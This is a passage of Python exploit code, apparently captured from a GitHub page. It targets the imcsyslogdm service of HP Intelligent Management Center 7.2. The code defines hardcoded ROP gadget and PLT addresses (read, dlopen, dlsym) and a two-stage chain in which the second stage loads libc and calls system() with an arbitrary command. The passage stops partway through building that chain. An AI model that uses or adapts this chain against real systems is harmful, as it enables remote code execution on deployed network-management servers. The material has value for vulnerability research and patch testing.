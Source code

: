 ```


def rop(*args):
    return struct.pack('I' * len(args), *args)


# mock object of the ELF class from pwntools so that the final exploit doesn't depend on it
class ELF:
    def bss(self, offset):
        return 0x884D0C0 + offset

    plt = {
        'read': 0x805957C,
        'dlopen': 0x805857C,
        'dlsym': 0x80597BC,
    }


e = ELF()

# strings used in the second stage
libc_str = 'libc.so.6\0'
system_str = 'system\0'

# ROP gadgets from, the latest available version:
#   (Intelligent Management Center Enterprise (7.2_E0403) with E0403P10 applied
# [root@vm bin]# md5sum imcsyslogdm
# 8b06adbd3d47a372358d9106e659d9b2  imcsyslogdm
pop2_ret = 0x0805b137       # pop edi ; pop ebp ; ret
pop3_ret = 0x08480408       # pop edi ; pop ebx ; pop ebp ; ret
pop4_ret = 0x084f213a       # pop edi ; pop esi ; pop ebx ; pop ebp ; ret

zero_edx = 0x084f90c1       # xor edx, edx ; ret
inc_edx = 0x0811c5e6        # inc edx ; ret
pop_ebx = 0x080dd8cd        # pop ebx ; ret

# used to write values obtained dynamically by the ROP chain to the stack
eax_to_stack = 0x08703fba   # mov dword ptr [esp + edx*8], eax ; adc dword ptr [ebx], eax ; ret

ret = 0x080485c0            # ret
add_eax_28 = 0x084ddd16     # add eax, 0x1c ; pop ebp ; ret
dec_eax = 0x080dd660        # dec eax ; ret
zero_eax = 0x080834d4       # xor eax, eax ; ret
add_eax_25f = 0x0845f636    # add eax, 0x25f ; pop ebx ; pop ebp ; ret
ret_C = 0x0814b04e          # ret 0xc
xchg_eax_esp = 0x0807a2c7   # xchg eax, esp ; ret
pop_eax = 0x0837db70        # pop eax ; ret
get_instance = 0x08091210   # ::instance of a Singleton used to retrieve a socket fd
mov_eax_eax_plus_0x5c = 0x08562d44  # mov eax, dword ptr [eax + 0x5c] ; ret


# the offset of the second stage into the .bss
second_stage_offset_into_bss = 0x6500
second_stage_data = libc_str + system_str + command
# place the data above the rop chain so that the stack usage of functions
# won't clobber it. Also, the second ROP chain has to be shorter than this.
second_stage_data_offset = 120

# the length of the command to be executed is limited to around 470 bytes
assert len(command) < 0x25f - second_stage_data_offset - len(system_str) - len(libc_str)

# the first stage has to be 0-byte free, so we do as little as possible here to read in a second stage
```